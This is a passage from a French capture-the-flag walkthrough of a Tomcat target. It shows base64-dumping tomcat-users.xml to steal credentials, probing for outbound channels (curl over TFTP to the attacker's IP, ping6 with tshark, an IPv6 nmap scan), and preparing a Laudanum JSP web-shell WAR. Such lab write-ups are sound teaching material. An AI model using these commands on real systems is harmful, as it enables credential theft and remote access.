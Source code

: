 Avec un peu de jugeote on peu utiliser la commande base64 pour récupérer le contenu d'un fichier encodé en une seule ligne :  

```plain
base64 -w 0 /etc/tomcat/tomcat-users.xml
```

Le base64 obtenu et décodé permet d'obtenir les credentials du *Tomcat* : *sl33py* / *Gu3SSmYStR0NgPa$sw0rD!*.  

Avec des identifiants j'aurais pu enchaîner directement sur le Tomcat mis en place plus tôt mais je voulais profiter un peu plus de cet accès un peu particulier, voir si je pouvais m'offrir un accès sur le serveur malgré le firewall.  

Le serveur n'a pas de netcat, pas de wget, pas de tftp en revanche il y a curl et un python2...  

Un curl sortant ne donne rien même sur le port 80... Le trafic sortant est donc aussi filtré :(  

UDP peut-être ? J'ai écouté sur le port UDP 69 de ma machine et tenté une sortie avec cURL et son support de TFTP (*curl tftp://mon\_ip/nawak*)... mais toujours rien.  

IPv6 ? Récupérer l'output de *ip -6 addr* est compliqué à cause du fait qu'on ne puisse pas placer un pipe ou une redirection dans le jdb :(   

Heureusement si je lance un *ping6 -c 1 mon\_adresse\_ipv6* j'obtiens bien une ligne dans un *tshark* préalablement lancé (*sudo tshark -i any icmp6*) :   

```plain
30 51.222553564 2a01:dead:beef:cafe:babe:0ff:1ce:fc3 → 2a01:decaf:f00d:face:bad:a55:c0f3:f26c ICMPv6 120 Echo (ping) request id=0x074e, seq=1, hop limit=64
```

Je relance un scan Nmap en IPv6, pas de pépites mais au moins on a le serveur Tomcat sans relais :  

```plain
PORT     STATE SERVICE
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

Bons baisers de Tomcat
----------------------

Les identifiants fonctionnent comme on pouvait s'y attendre, malheureusement... c'est le module MSF qui ne parvient pas à nous obtenir quelque chose... Même en testant différentes *targets* (Linux ou Java) et payloads :'(   

J'ai décidé de me remettre à une exploitation plus manuelle comme expliquée [sur ce blog](http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html).  

Il s'agit d'utiliser l'un des shells du projet *Laudanum* :  

> Laudanum is a collection of injectable files, designed to be used in a pentest when SQL injection flaws are found and are in multiple languages for different environments.  
> 
> They provide functionality such as shell, DNS query, LDAP retrieval and others.

![Sleepy WAR JSP backdoor](https://raw.githubusercontent.com/devl00p/blog/master/images/sleepy/sleepy_war.png)  

